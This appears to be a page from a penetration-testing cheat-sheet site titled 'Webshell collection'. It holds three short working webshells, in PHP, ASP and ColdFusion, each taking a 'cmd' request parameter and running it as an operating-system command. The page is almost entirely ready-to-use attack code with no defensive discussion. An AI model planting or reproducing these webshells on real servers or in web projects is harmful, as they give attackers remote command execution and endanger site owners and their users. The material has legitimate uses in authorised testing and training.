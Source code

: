 ```yaml
---
title: "Webshell collection"
description: "A collection of simple webshells"
date: 11/03/2021
categories:
 - Web
tags:
 - webshell
 - rce
---
```



## PHP

On the PHP page there is other [functions to execute code](/php/#command-execution):

```php
<?php
	if(isset($_GET['cmd'])) {
		system($_GET['cmd']);
	}
?>
```


## ASP

```asp
<%
Response.write("<pre>")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("</pre>")
%>
```

## ColdFusion

```cfm
<cfsavecontent variable="cmdOutput">
<cfexecute name="C:\Windows\System32\cmd.exe" arguments="/c #Request.cmd#" timeout="10"></cfexecute>
</cfsavecontent>
<pre>
#HTMLCodeFormat(cmdOutput)#
</pre>
```
